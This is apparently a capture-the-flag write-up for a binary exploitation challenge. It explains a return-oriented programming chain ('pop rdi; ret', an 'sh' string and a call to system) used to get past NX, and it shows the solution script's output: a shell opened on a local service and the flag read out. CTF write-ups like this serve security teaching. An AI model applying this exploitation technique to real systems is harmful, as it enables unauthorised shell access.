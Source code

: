 # Solution

Binary has NX enabled so a ROP gadget needs to be made in order to leverage a shell. A gadget containing the following will work:
- `pop rdi; ret` (first argument)
- `"sh"` string (will be popped into `rdi`, used from "t00t t00t psh psh")
- `call system`

Solution is in `poperet-solution.py`.

```sh
$ python3 poperet-solution.py 
[+] Opening connection to localhost on port 9000: Done
[*] Switching to interactive mode

HELLO AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBs\x13
t00t t00t psh psh$ $ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ $ cat flag.txt
ibctf{NX-d03s-n0t_m34n_N03x3cut3}
$ $  
```
